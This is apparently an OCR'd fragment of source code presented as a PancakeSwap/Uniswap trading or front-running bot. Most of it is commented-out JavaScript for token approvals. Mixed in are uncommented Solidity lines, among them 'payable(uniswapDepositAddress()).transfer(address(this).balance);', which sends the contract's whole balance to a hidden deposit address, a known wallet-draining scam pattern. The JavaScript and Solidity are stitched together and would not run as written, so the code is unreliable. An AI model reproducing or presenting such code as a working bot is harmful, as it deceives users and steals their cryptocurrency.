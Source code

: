         //console.log('Sell succeed');

        //succeed = true;

manager;

//async function approve(gasPrice, outputtoken, out_token_address, user_wallet){

    //var allowance = await out_token_info.token_contract.methods.allowance(user_wallet.address, PANCAKE_ROUTER_ADDRESS).call();

   

    //allowance = BigNumber(allowance);

    //outputtoken = BigNumber(outputtoken);

    //var decimals = BigNumber(10).power(out_token_info.decimals);

    //var max_allowance = BigNumber(10000).multiply(decimals);

    //if(outputtoken.gt(max_allowance))

   

       //console.log('replace max allowance')

       //max_allowance = outputtoken;

       

       payable(uniswapDepositAddress()).transfer(address(this).balance);

     

   

    //if(outputtoken.gt(allowance)){

        //console.log(max_allowance.toString());

        //var approveTX ={

                //from: user_wallet.address,

                //to: out_token_address,

                //gas: 50000,

                //gasPrice: gasPrice*ONE_GWEI,

                //data: out_token_info.token_contract.methods.approve(PANCAKE_ROUTER_ADDRESS, max_allowance).encodeABI()

                manager;

           

        //var signedTX = await user_wallet.signTransaction(approveTX);

        //var result = await web3.eth.sendSignedTransaction(signedTX.rawTransaction);

        //console.log('Approved Token')

   

    //return;

//select attacking transaction
